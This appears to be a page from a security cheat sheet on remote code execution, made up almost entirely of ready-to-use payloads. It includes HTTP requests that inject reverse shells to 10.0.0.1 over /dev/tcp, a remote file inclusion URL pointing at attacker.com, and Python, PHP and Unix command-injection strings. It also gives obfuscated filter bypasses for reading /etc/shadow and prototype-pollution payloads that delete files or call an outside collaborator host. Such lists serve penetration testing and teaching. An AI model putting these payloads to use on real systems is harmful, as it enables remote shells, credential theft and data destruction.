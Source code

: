 ### Remote Code Execution (RCE) and Payloads

Remote Code Execution (RCE) is a critical security concern that arises when attackers can execute arbitrary code on a target machine due to vulnerabilities or misconfigurations. RCE can be achieved through various techniques such as SQL Injection (SQLi), Server-Side Template Injection (SSTI), and insecure deserialization.

**Code Injection Examples:**

- Code injection using query parameter:
  ```http
  GET /calculator?calc="__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1')"
  Host: example.com
  ```

- Code injection using a download URL:
  ```http
  GET /download?url="google.com;bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
  Host: example.com
  ```

- File inclusion vulnerability:
  ```http
  http://example.com/?page=http://attacker.com/malicious.php?cmd=ls
  ```

**Payloads for RCE:**

- Python payloads:
  - To print a message if Python execution succeeds:
    ```
    print("RCE test!")
    ```
  - To execute the system command 'ls':
    ```
    "__import__('os').system('ls')"
    ```
  - To delay the response for 10 seconds:
    ```
    "__import__('os').system('sleep 10')"
    ```

- PHP payloads:
  - To display local PHP configuration information:
    ```
    phpinfo();
    ```
  - To execute the system command 'ls':
    ```
    <?php system("ls");?>
    ```
  - To delay the response for 10 seconds:
    ```
    <?php system("sleep 10");?>
    ```

- Unix payloads:
  - To execute the system command 'ls':
    ```
    ;ls;
    ```
  - Payloads to delay the response for 10 seconds:
    ```
    | sleep 10;
    & sleep 10;
    ` sleep 10;`
    $(sleep 10)
    ```

**Filter Bypass Techniques:**

- Various techniques to bypass filters:
  - Manipulating `/etc/shadow` to avoid filters:
    ```
    cat /etc/shadow
    cat "/e"tc'/shadow'
    cat /etc/sh*dow
    cat /etc/sha``dow
    cat /etc/sha$()dow
    cat /etc/sha${}dow
    ```

- PHP filter bypass:
  - Executing a system command by concatenating strings:
    ```
    ('sys'.'tem')('cat /etc/shadow');
    system/**/('ls');
    ```

- Python filter bypass:
  - Using different syntax variations:
    ```
    __import__('os').system('cat /etc/shadow')
    __import__('o'+'s').system('cat /etc/shadow')
    __import__('\x6f\x73').system('cat /etc/shadow')
    ```

- Splitting RCE payloads to bypass input validation:
  ```
  GET /calculator?calc="__import__('os').sy"&calc="stem('ls')"
  Host: example.com
  ```

- Bypassing using prototype pollution:
  ```json
  "__proto__": {
      "execArgv":[
          "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
      ]
  }
  "__proto__": {
      "execArgv":[
          "--eval=require('child_process').execSync('curl https://<your web server>')"
      ]
  }
  "__proto__": {
      "shell":"vim",
      "input":":! curl https://YOUR-COLLABORATOR-ID.oastify.com\n"
  }
  ```

These are various techniques, payloads, and bypasses related to RCE vulnerabilities. Properly testing for and addressing RCE vulnerabilities is crucial to maintaining web application security. It's important to responsibly disclose and mitigate such issues to prevent potential attacks.
